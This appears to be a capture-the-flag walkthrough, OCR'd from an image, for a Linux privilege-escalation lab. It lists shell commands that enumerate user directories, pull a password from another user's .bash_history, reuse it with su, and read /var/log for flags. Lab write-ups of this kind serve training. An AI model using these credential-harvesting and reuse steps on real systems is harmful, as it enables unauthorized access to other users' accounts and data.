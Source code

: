     ls -la /home
    # besides htb-student, we have 2 users - barry and mrb3n

    ls -la
    # enumerate folders in current home directory

    ls -la .config
    # flag1
    cat .config/.flag1.txt

    ls -la /home/barry
    # contains flag2, but we do not have read permissions

    ls -la /home/barry/.ssh
    # permission denied

    cat /home/barry/.bash_history
    # includes credentials "i_l0ve_s3cur1ty!"

    # check for creds reuse
    su barry
    # this works

    cd

    cat flag2.txt

    id
    # part of 'adm' group
    # we can check files in /var/log

    ls -la /var/log
    # flag3

    cat /var/log/flag3.txt

    find / -type f -name flag4.txt 2>/dev/null
    # we have flag4 in /var/lib/tomcat9
    # but cannot read this file
